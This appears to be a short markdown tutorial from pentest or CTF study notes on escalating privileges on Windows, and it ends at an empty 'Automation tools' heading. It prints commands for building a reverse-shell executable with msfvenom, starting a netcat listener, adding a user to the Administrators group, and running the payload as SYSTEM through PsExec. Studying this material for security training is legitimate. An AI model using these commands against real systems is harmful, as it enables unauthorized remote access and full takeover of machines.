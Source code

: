 [Contents](../)

# Privilege escalation on windows

Our goal is to get `Administrator` or `System` shell.

# Spawning administrative shells

## Reverse shell

Unlike linux, spawning administrative shells on windows is harder. Best method is to create reverse shell executable using msfvenom.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -o reverse.exe
```

Then we setup listener with netcat.

```bash
nc -lvnp 8990
```

## RDP

If RDP is available (or we can enable it), we can add current user into Administrators group and spawn administrator shell via GUI.

```bash
net localgroup administrators <user> /add
```

## ADMIN to SYSTEM

To escalate from admin to SYSTEM, we can use [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
.\PsExec64.exe -accepteula -i -s C:\path\reverse.exe
```

# Automation tools

